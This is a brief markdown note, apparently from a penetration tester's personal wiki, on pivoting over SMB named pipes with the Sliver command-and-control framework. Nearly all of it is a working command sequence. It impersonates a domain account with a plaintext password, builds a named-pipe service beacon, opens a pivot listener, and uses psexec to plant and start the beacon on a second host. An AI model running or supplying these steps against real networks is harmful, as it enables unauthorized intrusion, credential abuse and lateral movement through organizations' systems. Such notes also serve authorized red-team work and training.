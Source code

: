 ```yaml
---
title: SMB Pivoting
---
```


[[notes/pivoting/index]] over a [[notes/network/smb]] Named Pipes.

With [[notes/tools/sliver]] create a named pipe listener and use `psexec` to start the beacon on the target (in the example `EXTRA_AGGRESSION` is the current beacon and `192.168.100.39` is its IP).

~~~
sliver (EXTRA_AGGRESSION) > make-token -d corp.local -u srvadm -p "P@ssw0rd"
sliver (EXTRA_AGGRESSION) > profiles new -o windows -f service -e -p 192.168.100.39/pipe/test1 smb-svc
sliver (EXTRA_AGGRESSION) > pivots named-pipe -a -b test1
sliver (EXTRA_AGGRESSION) > psexec -p smb-svc -d test1 -s test1 srv01.corp.local
sliver (EXTRA_AGGRESSION) > rev2self
~~~
